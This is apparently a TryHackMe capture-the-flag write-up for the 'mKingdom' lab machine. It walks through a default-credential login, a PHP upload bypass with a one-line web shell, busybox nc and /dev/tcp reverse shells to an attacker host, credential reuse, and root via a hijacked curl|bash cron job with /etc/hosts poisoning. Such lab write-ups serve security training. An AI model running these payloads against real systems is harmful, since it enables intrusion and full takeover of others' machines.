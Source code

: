 # mKingdom - TryHackMe Writeup

**TL;DR:** Weak Credentials → File Upload Bypass → Credential Reuse → Lateral Movement → Cron Job → DNS Poisoning → Root

## Target
- Machine: `mkingdom.thm`
- Date: 2025-4-23
- Environment: TryHackMe / CTF

## Steps:

### 1. Initial scan:

```bash
#
nmap -sV -sC -T4 -Pn 10.10.186.42

85/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0H N0! PWN3D 4G4IN
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

### 2. Directory Discovery:
```bash
gobuster dir -u http://mkingdom.thm:85/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php

/app                  (Status: 301) [Size: 312]


gobuster dir -u http://mkingdom.thm:85/app/castle/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php

/application
/concrete
/index.php
/packages
/robots.txt
/updates
```

### 3. Web Application Discovery

The web application presented a login page at `http://mkingdom.thm:85/app/castle/`. Initial attempts at SQL injection and brute-force attacks resulted in an IP ban, indicating the presence of security measures.

#### Credential Discovery
After testing common credentials, access was successfully gained using:
- **Username**: `admin`
- **Password**: `password`

![Login](images/sigin.png)


#### File Upload Bypass

The application allowed file uploads but restricted PHP files by default. To bypass this:

1. Navigated to the file types configuration:
   `http://mkingdom.thm:85/app/castle/index.php/dashboard/system/files/filetypes`

2. Added `.php` extension to the allowed file types:

![add-php](images/phpadd.png)


#### Web Shell Deployment

Created a simple PHP web shell:
```php
<?php system($_GET['cmd']); ?>
```

Uploaded the shell file through the application's file upload functionality:

![upload-shell](images/upload.png)

![upload-shell](images/upload2.png)

The web shell became accessible at:
`http://mkingdom.thm:85/app/castle/application/files/9817/6188/7568/cmd.php`

Verified functionality by executing the id command:
`http://mkingdom.thm:85/app/castle/application/files/9817/6188/7568/cmd.php?cmd=id`

![web-shell](images/webshell.png)

#### Revese Shell Establishment

To gain a proper shell access:

   1. Set up netcat listener on attacking machine:
```bash
nc -lnvp 4444
```
   2. Trigger reverse shell via web shell:

```bash
curl 'http://mkingdom.thm:85/app/castle/application/files/9817/6188/7568/cmd.php?cmd=busybox%20nc%2010.9.1.13%204444%20-e%20bash'
```
   3.     Upgrade shell for better interaction: 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

### 4. Lateral Movement & Credential Discovery

While exploring the web application structure, database credentials were discovered in the configuration file:

**Location**: `/var/www/html/app/castle/application/config/database.php`

![mysql-cred](images/sqlcred2.png)

#### Password Reuse

The discovered database password was reused successfully to switch to the `toad` user:

```bash
www-data@mkingdom:/$ su toad
Password: 
toad@mkingdom:/$ id
uid=1002(toad) gid=1002(toad) groups=1002(toad)
```


Examination of user configuration files revealed credentials in an unexpected location:

```bash
toad@mkingdom:~$ cat .bashrc 


export PWD_token='[REDACTED]=='

#decode it
echo '[REDACTED]==' | base64 -d
[REDACTED]
```

The decoded credentials provided access to the `mario`user:
```bash
su mario
Password:

mario@mkingdom:/home/toad$ id
uid=1001(mario) gid=1001(mario) groups=1001(mario)
```
#### User flag

```bash
mario@mkingdom:~$ cat user.txt 
cat: user.txt: Permission denied
# The cat binary runs as toad user, preventing access.

mario@mkingdom:~$ more user.txt 
thm{[REDACTED]}
```


### 5. Privilege Escalation to Root


#### Enumeration with LinPEAS

Uploaded and executed LinPEAS for automated privilege escalation enumeration, which revealed a critical finding:

```bash
╔══════════╣ Searching root files in home dirs (limit 30)
/var/www/html/app/castle/application/counter.sh
```

Discovered a root-owned script that appeared to be part of a scheduled task:
```bash
ls -la /var/www/html/app/castle/application/counter.sh
#-rw-r--r-- 1 root root 129 Nov 29  2023 /var/www/html/app/castle/application/counter.sh

cat /var/www/html/app/castle/application/counter.sh
##!/bin/bash
#echo "There are $(ls -laR /var/www/html/app/castle/ | wc -l) folder and files in TheCastleApp in - - - - > $(date)."
```

#### Process Monitoring with pspy

Using pspy64 to monitor background processes revealed a critical cron job execution:
```bash
./pspy64


2025/10/31 03:50:01 CMD: UID=0     PID=4366   | curl mkingdom.thm:85/app/castle/application/counter.sh
2025/10/31 03:50:01 CMD: UID=0     PID=4365   | CRON 
2025/10/31 03:50:01 CMD: UID=0     PID=4364   | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log
```
A root-level cron job was fetching and executing counter.sh from the web server via curl.

#### DNS Poisoning Attack

1. Created malicious counter.sh on attacking machine:
```bash
mkdir -p app/castle/application/

echo "bash -c 'bash -i >& /dev/tcp/YOUR_IP/4445 0>&1'" > app/castle/application/counter.sh
```

2. Hosted malicious script via Python HTTP server:
```bash
python3 -m http.server 85
```

3. Poisoned DNS resolution by modifying `/etc/hosts`:
```bash
mario@mkingdom:/tmp$ cat /etc/hosts
127.0.0.1       localhost
YOUR_IP       mkingdom.thm  # <- Added malicious entry
```

4. Prepared netcat listener:
```bash
nc -lnvp 4445
```

#### Root Shell Acquisition

The cron job executed the malicious script, providing a reverse shell as root:
```bash
root@mkingdom:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@mkingdom:~# 
```

#### Root Flag

Successfully retrieved the root flag:
```bash

more root.txt
thm{[REDACTED]}
```
